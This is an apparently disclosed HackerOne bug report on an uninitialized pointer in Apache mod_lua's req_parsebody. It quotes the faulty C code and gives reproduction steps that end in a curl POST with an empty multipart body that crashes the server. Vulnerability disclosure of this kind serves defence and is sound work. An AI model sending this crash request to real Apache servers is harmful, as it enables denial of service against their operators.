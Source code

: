 # Use of uninitialized value of in req_parsebody method of lua_request.c

## Report Details
- **Report ID**: 1514863
- **URL**: https://hackerone.com/reports/1514863
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-03-17T13:41:40.987Z
- **Disclosed**: 2022-03-17T15:01:23.600Z

## Reporter
- **Username**: chamal
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
###Software Versions
Ubuntu - 18.04 64-bit
Apache 2.4.51 - 64 bit

### Cause of Bug
This bug is present in the `req_parsebody` method of lua_request.c file.
Below mentioned lines of code cause this bug.
```cpp
 const char  *data;
 int         i;
 size_t      vlen = 0;
 size_t      len = 0;
 if (lua_read_body(r, &data, (apr_off_t*) &size, max_post_size) != OK) {
     return 2;
 }
 len = strlen(multipart);
 i = 0;
 for
 (
    start = strstr((char *) data, multipart);
 ```

Note that the `const char  *data` pointer is not initialized with a value.
That pointer is passed to the `lua_read_body` method to store data sent by HTTP request.
If the HTTP request does not contain any data, then a value will not be set for `const char  *data` pointer.
So `const char  *data` pointer will remain uninitialized.

Then `const char  *data` pointer is passed as a parameter to "strstr" function.
Segmentation fault will happen in "strstr" function, if it cannot access memory pointed by `const char  *data` pointer.

**I noticed a difference between Apache 64 bit build and 32 bit build.**
    64 bit build - Pointer value of`const char  *data` pointer is 0x1.
                                So a Segmentation fault happens in `strstr` function.
    32 bit build - Pointer value of `const char  *data` pointer has a valid memory address.
                                 So Segmentation fault does NOT happen in `strstr` function.

###Steps
1. Build Apache web server with Lua module
   `./configure --enable-lua=shared`

2. Enable Lua module with Apache web server.
    Add these lines to httpd.conf file.

```apacheconf
   LoadModule lua_module modules/mod_lua.so

   <Files "*.lua">
    SetHandler lua-script
   </Files>
```

3. Copy attached F1658382 file to htdocs folder.

4. Start Apache web server in debug single worker mode.
   `./httpd -X -d /home/apache/install-directory/`

5. Send this HTTP request with CURL.
   `curl -v -X POST -H 'content-type: multipart/form-data;boundary=-' http://127.0.0.1/test.lua`
    Apache web server will crash. *Note that apache web server is started in single worker mode in step 4.*

** I selected Denial of Service (CWE-400) as weakness type. But correct weakness type should be 	Improper Initialization(CWE-665). It was not available to select.**

## Impact

May be used for a denial of service attack.

## Attachments
- test.lua
